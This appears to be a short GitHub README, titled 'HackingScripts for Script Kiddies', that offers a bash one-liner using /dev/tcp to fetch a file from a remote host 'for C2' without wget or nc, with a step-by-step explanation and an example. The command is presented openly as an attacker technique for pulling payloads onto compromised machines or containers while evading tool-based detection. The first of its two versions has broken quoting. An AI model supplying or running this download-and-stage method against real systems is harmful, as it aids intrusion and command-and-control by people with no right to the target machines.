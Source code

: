 # HackingScripts for Script Kiddies
# One liner bash for C2 without using any native program like wget, nc etc, esp containers. 
```bash
bash-c "exec 3<>/dev/tcp/IP/80; echo -e GET/ youfile.sh HTTP/1.1\r\nHost; ip\r\nConnection: close\r\n\r\n' >&3; cat <&3-> yourfile.sh'
```
or If Not Use 
```bash
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

## Explanation How it Work

1. **`exec 3<>/dev/tcp/IP/80`**  
   Opens a TCP connection to the specified `IP` on port `80` and assigns it to file descriptor `3`.

2. **`echo -e 'GET /yourfile.sh HTTP/1.1\r\nHost: IP\r\nConnection: close\r\n\r\n' >&3`**  
   Sends an HTTP GET request to the server.  
   - `GET /yourfile.sh HTTP/1.1`: Requests the file `yourfile.sh` using HTTP/1.1.  
   - `Host: IP`: Specifies the host (replace `IP` with the server's IP or hostname).  
   - `Connection: close`: Ensures the connection is closed after the request.  
   - `\r\n`: Represents a carriage return and newline for proper HTTP formatting.

3. **`cat <&3 > yourfile.sh`**  
   Reads the server's response from file descriptor `3` and saves it to `yourfile.sh`.


## Example

If the server IP is `192.168.1.100` and the file is `script.sh`, the command would look like this:

```bash
bash -c "exec 3<>/dev/tcp/192.168.1.100/80; echo -e 'GET /script.sh HTTP/1.1\r\nHost: 192.168.1.100\r\nConnection: close\r\n\r\n' >&3; cat <&3 > script.sh"
```



## Notes

- Replace `IP` with the actual IP address or hostname of the server.
- Replace `/yourfile.sh` with the path to the file you want to download.
- Ensure the server is running on port `80` and allows HTTP requests.
- This method only works for plain HTTP. For HTTPS, use tools like `curl` or `wget`.
Don’t forget the reactions and stars⭐️! 
They fuel my energy to post such contents🔋✨.
